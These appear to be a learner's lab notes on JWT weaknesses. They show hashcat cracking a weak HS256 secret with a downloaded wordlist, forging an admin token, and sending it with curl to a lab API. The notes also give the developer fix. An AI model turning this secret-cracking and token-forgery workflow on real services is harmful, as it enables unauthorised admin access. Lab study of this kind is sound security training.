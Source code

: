 the fix
```
payload = jwt.decode(token, self.secret, algorithms=["HS256", "HS384", "HS512"]) 
username = payload['username'] flag = self.db_lookup(username, "flag")
```




### weak symmetric secrets 

If a symmetric signing algorithm is used, the security of the JWT relies on the strength and entropy of the secret used. If a weak secret is used, it may be possible to perform offline cracking to recover the secret. Once the secret value is known, you can again alter the claims in your JWT and recalculate a valid signature using the secret.

### example 4

For this example, a weak secret was used to generate the JWT. Once you receive a JWT, you have several options to crack the secret. For our example, we will talk about using [Hashcat](https://hashcat.net/hashcat/) to crack the JWT's secret. You could also use other solutions such as [John](https://www.openwall.com/john/) as well. You can use the following steps to crack the secret:

1. save the JWT to a text file `jwt.txt`
2. download a common JWT secret list  ` wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list ` 
3. use Hashcat to crack the secret using ` hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list `

developer mistake  = weak JWT secret used
the fix = use secret secret value , long random string 


```
curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password4" }' http://10.10.35.117/api/v1.0/example4

{
  "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY"
}


eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY
saved in jwt.txt

wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list

# hashcat 
hashcat -m 16500 -a 0 jwt.txt jwt.secrets.list

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.yN1f3Rq8b26KEUYHCZbEwEk6LVzRYtbGzJMFIF8i5HY:secret


# forge a new jwt > jwt.io > paste in token > admin:1 > paste in secret (verify signature section)

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.gpHtgNe4OSgiQHuf8W7JFfSNTi9tEnDKvK7QAk2DFBc


# update verify.sh
curl -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.gpHtgNe4OSgiQHuf8W7JFfSNTi9tEnDKvK7QAk2DFBc' http://10.10.35.117/api/v1.0/example4?username=admin

# run verify.sh

```